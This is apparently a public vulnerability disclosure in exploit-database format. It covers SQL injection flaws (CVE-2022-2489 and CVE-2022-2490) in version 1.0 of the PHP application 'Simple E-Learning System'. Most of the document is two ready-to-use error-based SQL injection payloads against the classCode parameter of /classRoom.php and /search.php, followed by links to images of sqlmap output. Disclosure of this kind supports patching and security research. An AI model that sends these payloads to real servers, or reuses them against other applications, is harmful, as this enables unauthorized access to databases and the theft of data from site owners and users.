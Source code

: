 ### Exploit Title: Simple E-Learning System - Multiple SQL injections
### Date: 2022-07/20
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php-simple-e-learning-system-source-code
### Version: 1.0
### Tested on: windows10 + phpstudy


# 1./classRoom.php(CVE-2022-2489)
/classRoom.php SQL injection exists for parameter classCode

### Sample request POC #1

```
http://[ip:port]/classRoom.php?classCode=1'||(SELECT 0x6770715a WHERE 8795=8795 AND (SELECT 8342 FROM(SELECT COUNT(*),CONCAT(0x7171786b71,(SELECT (ELT(8342=8342,1))),0x717a7a7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/16582996517475.png "Simple E-Learning System")


# 2./search.php(CVE-2022-2490)
/search.php SQL injection exists for parameter classCode

### Sample request POC #2

```
http://[ip:port]/search.php?classCode=1'||(SELECT 0x74666264 WHERE 5610=5610 AND (SELECT 7504 FROM(SELECT COUNT(*),CONCAT(0x7171627a71,(SELECT (ELT(7504=7504,1))),0x71717a7071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/16583004584228.png "Simple E-Learning System")


